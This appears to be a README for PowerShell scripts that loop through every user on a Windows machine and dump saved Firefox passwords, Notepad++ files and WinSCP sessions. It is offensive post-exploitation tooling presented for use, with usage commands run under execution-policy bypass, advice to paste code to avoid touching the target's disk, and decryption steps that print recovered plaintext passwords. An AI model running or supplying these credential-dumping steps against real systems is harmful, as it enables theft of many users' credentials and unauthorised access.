 A set of scripts to help gathering credentials from Windows devices, especially usefull if there are hundreds of users on the machine.

The scripts should be run as a **high privileged user** to gather as much information as possible.

---

# firefox_dump.ps1
This script will loop through all users under `C:\Users` and dump all saved credentials from Mozilla Firefox profiles. 
## Example Usage
```powershell
PS C:\tmp> powershell.exe -ExecutionPolicy Bypass .\firefox_dump.ps1
[-] 'Public' doesn't have any saved passwords in Mozilla Firefox
[+] Dumping secrets from 'user' to: C:\Users\void\AppData\Local\Temp\user\skvrf23a.default
[+] Dumping secrets from 'user2' to: C:\Users\void\AppData\Local\Temp\user2\grg21h5s.default
[-] 'user3' doesn't have any saved passwords in Mozilla Firefox
[+] Dumping secrets from 'void' to: C:\Users\void\AppData\Local\Temp\void\ljftf853.default-release
```

If you don't want to upload files to the target host simply copy-paste the try-catch code from the script and run it as is in PowerShell.
Decrypt the information with  [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) or similar.
```bash
┌──(void㉿void)-[/opt/firefox_decrypt]
└─$ ./firefox_decrypt.py /tmp/firefox-loot/user1            

Website:   http://localhost:8000
Username: 'dev-user'
Password: 'D3velopm3ntM@st3rK3y*!'
```
---

# notepad_dump.ps1
This script will loop through all users under `C:\Users` and dump all roaming text files from Notepad++. 
## Example Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\notepad_dump.ps1
[-] 'Public' doesn't have any roaming Notepad++ data.
[+] Dumping Notepad++ data from 'user' to: C:\Users\void\AppData\Local\Temp\user\notepad++
[+] Dumping Notepad++ data from 'user2' to: C:\Users\void\AppData\Local\Temp\user2\notepad++
[-] 'user3' doesn't have any roaming Notepad++ data.
[+] Dumping Notepad++ data from 'void' to: C:\Users\void\AppData\Local\Temp\void\notepad++
```

---

# winscp_dump.ps1
This script will loop through all users in the registry (HKLM) and dump all saved winscp sessions.
## Exampe Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\winscp_dump.ps1
[+] User: void - Session: root@127.0.0.1
  HostName: 127.0.0.1
  UserName: root
  EncPassword: A35C745EFEDC2E3333286D6E6B726C726C726D0834352F152F11250F393F2E39280C3D2F2F2B387D7E7F6D7D7E7F5B3C20AF

[+] Saved all output to logfile: C:\Users\void\AppData\Local\Temp\winscp_dump.log
```

Decrypt the encrypted password with [`WinSCPDec.py`](https://gist.github.com/tijldeneut/69717c56de3e16e97516a1964fa49bfd) or similar.
```bash
apt-kali :: ~ » python3 WinSCPDec.py --host=127.0.0.1 --user=root --pass=A35C745EFEDC2E3333286D6E6B726C726C726D0834352F152F11250F393F2E39280C3D2F2F2B387D7E7F6D7D7E7F5B3C20AF
[+] Succes!
     ThisIsMySecretPasswd!"#1!"#
```
